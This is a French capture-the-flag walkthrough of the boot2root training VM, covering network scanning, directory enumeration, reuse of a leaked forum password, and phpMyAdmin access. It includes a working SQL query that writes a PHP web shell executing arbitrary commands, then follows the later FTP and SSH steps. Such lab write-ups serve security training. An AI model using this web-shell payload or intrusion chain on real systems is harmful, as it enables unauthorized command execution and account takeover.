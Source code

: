 <h2>RECHERCHE D'IP</h2>
installation de nmap
<pre><code>> sudo apt-get install nmap
> nmap -sP 192.168.1.0/24 

Nmap scan report for csp1.zte.com.cn (192.168.1.1)
Host is up (0.0052s latency).
Nmap scan report for 192.168.1.10 (192.168.1.10)
Host is up (0.0080s latency).
Nmap scan report for 192.168.1.17 (192.168.1.17)
Host is up (0.011s latency).
Nmap scan report for 192.168.1.28 (192.168.1.28)
Host is up (0.0031s latency).
Nmap scan report for 192.168.1.255 (192.168.1.255)
Host is up (0.0040s latency).
Nmap done: 256 IP addresses (5 hosts up) scanned in 3.19 seconds

> nmap 192.168.1.28

Nmap scan report for 192.168.1.28 (192.168.1.28)
Host is up (0.0055s latency).
Not shown: 987 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
119/tcp open  nntp
143/tcp open  imap
443/tcp open  https
465/tcp open  smtps
563/tcp open  snews
587/tcp open  submission
993/tcp open  imaps
995/tcp open  pop3s

Nmap done: 1 IP address (1 host up) scanned in 4.71 seconds
</code></pre>

<code>nmap -sP 192.168.1.0/24 </code>-> nous donne les différentes ips connectées, on utilise nmap sur chacune pour trouver une ip contenant un port https open pour trouver l'ip de la vm

Après avoir réussi à trouver l'ip, nous allons chercher les différents paths de l'ip sur le port https grace à dirb
<pre><code>> sudo apt-get install dirb
> dirb https://IP

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.1.28/ ----
+ https://192.168.1.28/cgi-bin/ (CODE:403|SIZE:289)
==> DIRECTORY: https://192.168.1.28/forum/
==> DIRECTORY: https://192.168.1.28/phpmyadmin/
+ https://192.168.1.28/server-status (CODE:403|SIZE:294)
==> DIRECTORY: https://192.168.1.28/webmail/

</code></pre>

<h2>Partie HTTPS</h2>

Ensuite on se dirige vers /phpmyadmin, et on nous demande de fournir un mdp et un login, donc nous allons sur /formum

On trouve un topic : <code>Probleme login ?</code>
On voit que le topic est créé par lmezard, et que la page est rempli de log créé par un admin,
on cherche donc le nom lmezard dans la page, et on tombe sur ceci:
<pre><code>Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)</code></pre>

On voit un password sur la première ligne, donc on va essayer de se connecter au profil de lmezard sur le forum.

<code>login: lmezard

mdp: !q\]Ej?*5K5cy*AJ</code>

Ensuite on va sur son profil, ou l'on trouve son adresse mail.

<code>laurie@borntosec.net</code>

On tente de se connecter sur https://IP/webmail avec le même password, et ça marche.
On découvre 2 mails, celui qui nous intéresse est DB ACCESS, dans lequel on trouve le login et le mdp pour phpmyadmin

<code>root/Fg-'kKXBj87E:aJ$
</code>

Après s'être connecté sur phpmyadmin, on cherche a ouvrir un terminal grâce a un port apache ouvert:

```sql
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/forum/templates_c/phpshell.php'
```

On se dirige vers https://IP/forum/templates_c/phpshell.php et on y rentre la commande suivante pour lister les fichiers du terminal php:
<code>find / -user www-data -print 2>/dev/null</code>

On voit sur la sortie <code>/home/LOOKATME/password</code> et on l'affiche:

<code>lmezard:G!@M6f4Eatau{sF"</code>

<h2>Partie FILEZILLA</h2>

On a un accès ouvert a un port FTP, on va essayer le couple login/mdp sur un logiciel capable de lire ce genre de port (Filezilla par exemple), et ça fonctionne.
On trouve a la racine un fichier fun et un Readme, on les import pour les exploiter.

README:
<pre><code>Complete this little challenge and use the result as password for user 'laurie' to login in ssh</code></pre>

Le fichier fun est en fait une compression, on le décompresse avec la commande <code>tar -xvf fun </code> et on obtient un dossier remplis de .pcap.

On applique donc un script permettant de trier les fichiers, qui par la suite créera un main.c en commentant tout les trolls:

```c
import os
import re

main = {}

for file in os.listdir("ft_fun"):
	with open(f"ft_fun/{file}", "r") as f:
		code = f.read()
		# print(code)
		result = re.findall(r'//file([0-9]*)', code)
		main[int(result[0])] = code

with open("main.c", "w+") as f:
	for value in sorted(main.items()):
		f.write(str(value[1]) + "\n")
```
<pre><code>> gcc main.c
> ./a.out
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit%</code></pre>

On passe un sha256 sur le password récupéré et on obtient:
<code>330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4</code>

On peut maintenant se connecter en ssh a boot2root avec le login laurie et le passwdn récupéré

<h2>Partie SSH</h2>

A la racine de la vm, on trouve un executable bomb et un README
Bomb est un petit script nous demandant 6 passwords pour defuse la bombe, et ainsi récupérer le mot de passe de l'user thor
